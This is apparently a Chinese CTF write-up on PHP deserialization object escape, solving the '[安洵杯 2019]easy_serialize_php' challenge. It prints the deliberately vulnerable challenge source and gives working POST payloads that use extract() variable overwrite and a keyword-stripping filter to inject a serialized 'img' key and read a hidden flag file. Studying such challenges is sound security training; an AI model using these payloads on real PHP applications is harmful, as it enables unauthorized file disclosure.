

## **PHP反序列化的对象逃逸**

任何具有一定结构的数据，只要经过了某些处理而把自身结构改变，则可能会产生漏洞。

若我们输入的字符串先被序列化,然后又经过过滤函数,那么它的结构将会发生改变,可能就会产生漏洞

这里利用**[安洵杯 2019]easy_serialize_php**来进行讲解

#### 过滤函数引发的结构变化

**第一种为关键词数增加**  

例如： where->hacker，这样词数由五个增加到6个。题目: 0CTF 2016 piapiapia
**第二种为关键词数减少**
例如：直接过滤掉一些关键词

#### **键逃逸和值逃逸**

值逃逸：
这儿需要两个连续的键值对，由第一个的值覆盖第二个的键，这样第二个值就逃逸出去，单独作为一个键值对

```
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}&function=show_image
```

var_dump的结果为：

```
"a:3{s:4:"user";s:24:"";s:8:"function";s:59:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}"
```

键逃逸：

这儿只需要一个键值对就行了，我们直接构造会被过滤的键，这样值得一部分充当键，剩下得一部分作为单独得键值对

```
_SESSION[flagphp]=;s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

var_dump的结果为：

```
"a:2:{s:7:"";s:48:";s:1:"1";s:3:"img";s:20:"ZDBnM19mbGxsbGxsYWc=";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}"
```

这儿得s:7:””之所以为空，是因为我们构造得键flagphp都是会被过滤得，所以显示为空，这样就能吃掉一部分值了，然后将剩下得值充当另一个对象逃逸出去


## [安洵杯 2019]easy_serialize_php

首先进去就可以看到源码

```php
 <?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);                            //extract变量覆盖

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));  //sha1加密
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
} 
```

### 知识点

- extract变量覆盖
- 反序列化字符串逃逸

### 解题

首先查看phpinfo发现php.ini中设置了auto_prepend_file隐式包含了d0g3_f1ag.php,本题就是要读取该文件

#### 0x01 extract变量覆盖

extract()函数 该函数使用数组键名作为变量名，使用数组的键值作为变量值


其实本是知道这个知识点的,但是理解不够深入,导致自己一直没有利用到该知识点



当我们$_GET传入的是\_session[img]=“index.php"时,经过了extract函数后会产生$\_session[img]=index.php

这里分析代码

先是赋值:

$\_SESSION["user"] = 'guest';
$\_SESSION['function'] = $function;  //若想要显示源码,$f='show_image';

$\_SESSION['img']也只能等于base64_encode('guest_img.png');因为若我们传入参数img_PATH的话img的值会进行sha1加密,而后面是没有解密的

可知三个变量都是我们不能控制的,这里就能够有很多种解了,通过extract()进行变量覆盖

#### 0x02 反序列化字符串逃逸

_session可控后,就可以有很多种解法了,这里提供两种解法:

##### 值逃逸

payload1`:_SESSION[user]=flagflagflagflagflagflagflagphp&_SESSION[function]=function";s:8:"function";s:10:"show_image";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`
传入的字符串反序列化后:

```php
a:3;{s:4:"user";s:31:"flagflagflagflagflagflagflagphp";
s:8:"function";s:82:"function";s:8:"function";s:10:"show_image";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";
    s:3:"img";s:x:"base64";}
```

经过过滤函数后:

```php
a:3;{s:4:"user";s:31:"";s:8:"function";s:82:"function";
s:8:"function";s:10:"show_image";
s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
    //;"s:3:"img";s:x:"base64";}
```

##### 键逃逸

payload2:`_SESSION[flagphp]=;s:1:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`

```php
传入的字符串反序列化后:
a:2:{s:7:"flagphp";  s:48:";s:1:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";
s:3:"img";s:x:"base64";}
```

```php
经过过滤函数后:
a:2:{s:7:"";s:48:";  s:1:"a";
s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}" 
//;"s:3:"img";s:x:"base64";}
```

还有就是写payload最好在本地写,然后看它反序列化后的样子在更改,不然有些小毛病自己发现不了(现在能力太差了)


然后继续读就可以了


